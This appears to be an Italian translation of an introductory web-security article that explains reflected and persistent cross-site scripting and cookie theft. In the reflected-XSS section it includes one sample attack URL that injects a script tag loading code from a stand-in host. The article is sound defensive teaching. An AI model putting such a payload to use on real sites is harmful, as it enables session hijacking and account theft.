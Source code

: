 Il resto di questo articolo ti fornirà maggiori dettagli su alcune minacce comuni e su alcuni semplici passaggi che puoi adottare per proteggere il tuo sito.

> [!NOTE]
> Questo è un argomento introduttivo, progettato per aiutarti a iniziare a pensare alla sicurezza del sito web, ma non è esaustivo.

## Minacce alla sicurezza del sito web

Questa sezione elenca solo alcune delle minacce più comuni ai siti web e come vengono mitigate. Mentre leggi, nota come le minacce abbiano più successo quando l'applicazione web o si fida, o non è _abbastanza paranoica_ riguardo ai dati provenienti dal browser.

### Cross-Site Scripting (XSS)

XSS è un termine usato per descrivere una classe di attacchi che permettono a un attaccante di iniettare script lato client _attraverso_ il sito web nei browser di altri utenti. Poiché il codice iniettato proviene dal sito, il codice è _attendibile_ e può fare cose come inviare il cookie di autorizzazione del sito dell'utente all'attaccante. Quando l'attaccante ha il cookie, può accedere al sito come se fosse l'utente e fare tutto ciò che l'utente può fare, come accedere ai dettagli della carta di credito, vedere dettagli di contatto o cambiare password.

> [!NOTE]
> Le vulnerabilità XSS sono state storicamente più comuni di qualsiasi altro tipo di minaccia alla sicurezza.

Le vulnerabilità XSS sono divise in _riflesse_ e _persistenti_, basate su come il sito restituisce gli script iniettati a un browser.

- Una vulnerabilità XSS _riflessa_ si verifica quando il contenuto dell'utente passato al server viene restituito _immediatamente_ e _non modificato_ per essere visualizzato nel browser. Qualsiasi script nel contenuto originale dell'utente verrà eseguito quando la nuova pagina viene caricata.
  Ad esempio, considera una funzione di ricerca del sito in cui i termini di ricerca sono codificati come parametri URL, e questi termini sono visualizzati insieme ai risultati. Un attaccante può costruire un collegamento di ricerca che contiene uno script dannoso come parametro (ad es., `https://developer.mozilla.org?q=beer<script%20src="http://example.com/tricky.js"></script>`) e inviarlo per email a un altro utente. Se l'utente di destinazione clicca su questo "collegamento interessante", lo script verrà eseguito quando i risultati della ricerca vengono visualizzati. Come discusso in precedenza, questo fornisce all'attaccante tutte le informazioni di cui ha bisogno per entrare nel sito come l'utente di destinazione, potenzialmente effettuando acquisti come l'utente o condividendone le informazioni di contatto.
- Una vulnerabilità XSS _persistente_ si verifica quando lo script dannoso è _memorizzato_ sul sito web e successivamente ripresentato non modificato affinché altri utenti lo eseguano inconsapevolmente.
  Ad esempio, una board di discussione che accetta commenti contenenti HTML non modificato potrebbe memorizzare uno script dannoso di un attaccante. Quando i commenti vengono visualizzati, lo script viene eseguito e può inviare all'attaccante le informazioni necessarie per accedere all'account dell'utente. Questo tipo di attacco è estremamente popolare e potente, perché l'attaccante potrebbe non avere nemmeno alcun contatto diretto con le vittime.

Sebbene i dati dalle richieste `POST` o `GET` siano la fonte più comune di vulnerabilità XSS, qualsiasi dato proveniente dal browser è potenzialmente vulnerabile, come i dati cookie renderizzati dal browser o i file utente che vengono caricati e visualizzati.
